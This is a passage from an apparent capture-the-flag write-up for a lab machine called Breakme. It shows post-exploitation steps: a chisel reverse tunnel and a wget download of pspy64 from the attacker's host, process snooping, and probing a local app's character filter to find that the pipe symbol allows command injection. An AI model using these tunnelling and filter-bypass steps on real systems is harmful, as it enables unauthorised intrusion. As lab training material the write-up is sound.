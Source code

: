 ```bash
chisel client 10.17.87.131:9001 R:9999:127.0.0.1:9999
bash: chisel: command not found
www-data@Breakme:/tmp$ ./chisel client 10.17.87.131:9001 R:9999:127.0.0.1:9999 &
<isel client 10.17.87.131:9001 R:9999:127.0.0.1:9999
2025/07/07 10:46:32 client: Connecting to ws://10.17.87.131:9001
2025/07/07 10:46:33 client: Connected (Latency 170.64081ms)
```

Now, we can head to 127.0.0.1:9999 on our machine and see that application run by user john.

![image 14](https://github.com/user-attachments/assets/d02e8f21-b5ac-4a70-bdaa-8f070bfca434)

This application looks like it executes command with user input. So, we can run pspy64 on target machine to get better understanding of what application does.

```bash
www-data@Breakme:/tmp$ wget http://10.17.87.131/pspy64
wget http://10.17.87.131/pspy64
--2025-07-08 05:38:30--  http://10.17.87.131/pspy64
Connecting to 10.17.87.131:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   2.96M   653KB/s    in 5.7s    

2025-07-08 05:38:36 (530 KB/s) - ‘pspy64’ saved [3104768/3104768]

www-data@Breakme:/tmp$ chmod +x pspy64
chmod +x pspy64
www-data@Breakme:/tmp$ ./pspy64
```

Firstly, testing the check target function on that application, if we enters a ip address it run a ping command with it.

```bash
2025/07/08 05:39:08 CMD: UID=1002  PID=971    | /usr/bin/php -S 127.0.0.1:9999 
2025/07/08 05:39:08 CMD: UID=1002  PID=972    | sh -c ping -c 2 10.17.87.131 >/dev/null 2>&1 &
```

Second, If we test ‘check user’ function, it runs an id command in the background, but if we put any special characters there, it blocks them like `test;` 

```bash
2025/07/08 05:43:22 CMD: UID=1002  PID=1027   | /usr/bin/php -S 127.0.0.1:9999 
2025/07/08 05:43:22 CMD: UID=1002  PID=1028   | sh -c id test >/dev/null 2>&1 & 
```

Now, we can try a list of special characters: `~ ! @ # $ % ^ & * ( ) - _ + = { } ] [ | \ ` , . / ? ; : ' " < >` , to check which one is allowed and which one is restricted.

![image 15](https://github.com/user-attachments/assets/fdc5fa9f-03c7-4f2a-bf00-917a614c5da0)

Only `${}|./:` is allowed here, so no problem we can use pipe`|` to make our payload and will try to execute a shell.
